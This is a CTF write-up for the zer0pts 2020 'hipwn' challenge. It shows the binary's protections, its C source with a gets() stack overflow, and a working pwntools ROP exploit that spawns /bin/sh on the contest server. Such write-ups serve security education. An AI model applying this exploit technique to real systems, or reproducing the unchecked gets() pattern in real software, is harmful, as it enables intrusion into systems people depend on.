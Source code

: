 ## Pwn

### hipwn

```
ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, stripped

    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

```C
#include <stdio.h>

int main(void) {
  char name[0x100];
  puts("What's your team name?");
  gets(name);
  printf("Hi, %s. Welcome to zer0pts CTF 2020!\n", name);
  return 0;
}
```

A very simple BOF, just create ROP to execute `execve("/bin/sh\x00")` syscall.

```python
#!/usr/bin/env python

import sys
from pwn import *

if len(sys.argv) == 1:
    r = process('./chall')
else:
    r = remote('13.231.207.73', 9010)

buf = 0x604300
pop_rax = 0x400121
pop_rdi = 0x40141c
pop_rsi_r15 = 0x40141a
pop_rdx = 0x4023f5
syscall = 0x4024dd

payload = 'A'*248 + '/bin/sh\x00' + p64(buf)
payload += p64(pop_rax) + p64(0x3b) + p64(pop_rdi) + p64(0x604360) + p64(pop_rsi_r15) + p64(0) + p64(0) + p64(pop_rdx) + p64(0) + p64(syscall)
r.sendlineafter('name?\n', payload)

r.interactive()
```
